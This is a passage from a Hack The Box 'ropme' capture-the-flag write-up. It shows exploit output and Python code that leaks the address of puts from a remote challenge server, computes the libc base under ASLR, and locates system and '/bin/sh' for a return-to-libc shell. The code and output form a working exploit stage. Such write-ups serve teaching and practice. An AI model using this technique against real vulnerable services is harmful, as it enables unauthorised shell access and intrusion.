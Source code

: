 Which gives us:

```
shaked@shaked-ubuntu:/media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme$ python exploit.py
connecting to  ('docker.hackthebox.eu', 35034)
ROP me outside, how 'about dah?

connected. sending data
Virtual address of puts is: 0x7fdc0ec36690
Base of libc: 0x7fdc0ebc7000
Address of system:  0x7fdc0ec0c390
Address of binsh:  0x7fdc0ed53d57
```

Note how libc base is different now, this is expected as ASLR is active on the remote machine. BUT! we can successfully learn the base of it every run!

One more thing to finish, after we leak the address - the program dies, and when the program dies - the offsets change again! so we need to ask ourselves: **how to leak the addresses and also keep the process alive so that we will be able to send it to system("/bin/sh")?**

Solution: after returning from `fflush`, let's return to `main()` again! This will require us to forge a new payload and send it again. So our (almost) final code is:

```Python
import struct
import socket
import binascii

def ptr(n):
    return struct.pack("Q", n)

def compute_libc_base_from_puts(puts_va):
    # remote machine uses libc v2.23
    puts_offset_in_libc = 0x6f690
    return puts_va - puts_offset_in_libc

def remote(data):
    remote_address = (("docker.hackthebox.eu",35034))
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    print "connecting to ", remote_address
    conn.connect(remote_address)

    # server's initial message: "ROP ME outside..."
    print conn.recv(1024)

    print "connected. sending data"
    conn.send(bytes(data + "\n"))


    # Only take the 7 first bytes of the input
    # Because the rest of it will be "ROP Me outside ..." again
    # we don't care about that, we care about the address only
    ans = conn.recv(1024)[:7]      
    ans = ans[:-1]  # omit the 0a
    ans = ans[::-1]  # reverse the order

    print "Virtual address of puts is: 0x" + binascii.hexlify(ans)

    libc_base = compute_libc_base_from_puts(int(binascii.hexlify(ans), 16))
    print "Base of libc:", hex(libc_base)
    print "Address of system: ", hex(libc_base + 0x45390)
    print "Address of binsh: ", hex(libc_base + 0x18cd57)

```

[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me